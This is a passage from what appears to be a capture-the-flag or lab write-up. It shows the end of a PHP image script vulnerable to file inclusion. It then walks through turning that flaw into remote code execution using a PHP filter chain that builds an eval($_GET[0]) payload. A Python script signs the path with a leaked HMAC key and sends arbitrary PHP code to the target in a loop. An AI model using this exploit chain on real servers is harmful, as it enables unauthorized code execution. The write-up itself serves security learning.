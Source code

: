 ```php
        } else {
            header("Content-type: application/octet-stream");
            include($image_path);
        }
    } else {
        echo "Image not found";
    }

?>
```
{: .wrap }

### PHP Filters Chain Exploitation

To turn this **LFI** vulnerability into **RCE**, another method besides log poisoning is to use **PHP filters chain**.
This technique allows us to combine multiple filters to ultimately create a "file" containing whatever content we want and include it — in this case, **PHP code**.

We can generate a filter chain using [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) by **Synacktiv**:

```console
$ python3 ./php_filter_chain_generator.py --chain '<?=eval($_GET[0])?>'
[+] The following gadget chain will generate the following code : <?=eval($_GET[0])?> (base64 value: PD89ZXZhbCgkX0dFVFswXSk/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|...|convert.base64-decode/resource=php://temp
```

To make exploitation easier, we can write a simple script to execute arbitrary PHP code on the target:

```python
import hmac
import hashlib
import requests

target_url = "http://10.10.152.169/image.php" # change the IP address

secret_key = b"an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW"
path = "php://filter/convert.iconv.UTF8.CSISO2022KR|...|convert.base64-decode/resource=php://temp".encode() # replace with the output of php_filter_chain_generator.py 
h = hmac.new(secret_key, path, hashlib.sha256)
signature = h.hexdigest()

while True:
    params = {
        "hash": signature,
        "path": path,
        "0": input("code> ")
    }
    resp = requests.get(target_url, params=params, timeout=5)
    text = resp.text
    print(text)
```
{: file="execute_code.py" }
